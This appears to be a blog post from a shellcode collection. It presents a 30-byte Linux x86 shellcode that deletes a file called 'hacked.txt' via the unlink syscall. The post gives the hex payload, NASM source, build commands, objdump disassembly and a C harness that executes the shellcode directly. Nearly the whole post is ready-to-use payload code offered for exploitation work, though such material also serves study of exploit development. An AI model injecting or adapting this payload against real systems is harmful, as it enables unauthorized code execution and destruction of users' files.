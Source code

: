 ```yaml
---
title:  Linux/86 Delete file -> Jmp-call-pop,XOR
date: 2022-06-03 05:49:33 +0800
categories: [Shellcodes, Linux]
tags: []  
---
```


# Info

Description: `Shellcode to delete a file.`

Platform: `Linux`

Arch: `x86`

Size: `30 bytes`

Technique: `jmp-call-pop`, `XOR`

Shellcode : `\xeb\x0d\x5b\x31\xc0\xb0\x0a\xcd\x80\x31\xdb\xb0\x01\xcd\x80\xe8\xee\xff\xff\xff\x68\x61\x63\x6b\x65\x64\x2e\x74\x78\x74`

# Execution

![shellcode](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/shellcodes/unlinkjmpcallpopxor.png)

# Assembly-nasm

`nasm -f elf32 -o shellcode.o shellcode.asm`

`ld -o shellcode shellcode.o`

```nasm


global _start

section .text

_start:
    
    jmp data

main_:
    pop ebx
   
   ;delete file
    xor eax, eax
    mov al, 0xa
    int 0x80

    ; exit
    xor ebx, ebx
    mov al, 0x1
    int 0x80

data:
    call main_
    filename: db "hacked.txt"
      

```
# objdump

`objdump -d ./shellcode -M intel`

```bash

./shellcode:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:       eb 0d                   jmp    804806f <data>

08048062 <main_>:
 8048062:       5b                      pop    ebx
 8048063:       31 c0                   xor    eax,eax
 8048065:       b0 0a                   mov    al,0xa
 8048067:       cd 80                   int    0x80
 8048069:       31 db                   xor    ebx,ebx
 804806b:       b0 01                   mov    al,0x1
 804806d:       cd 80                   int    0x80

0804806f <data>:
 804806f:       e8 ee ff ff ff          call   8048062 <main_>

08048074 <filename>:
 8048074:       68 61 63 6b 65          push   0x656b6361
 8048079:       64 2e 74 78             fs cs je 80480f5 <filename+0x81>
 804807d:       74                      .byte 0x74

```

# C

`gcc -o shellcode shellcode.c`

```c

#include <string.h>
#include <stdio.h>

const char * shellcode = "\xeb\x0d\x5b\x31\xc0\xb0\x0a\xcd\x80\x31\xdb\xb0\x01\xcd\x80\xe8\xee\xff\xff\xff\x68\x61\x63\x6b\x65\x64\x2e\x74\x78\x74";

int main(void){
        printf("Length: %d\n", strlen(shellcode));
        (*(void(*)())shellcode)();
        return 0;
}


```


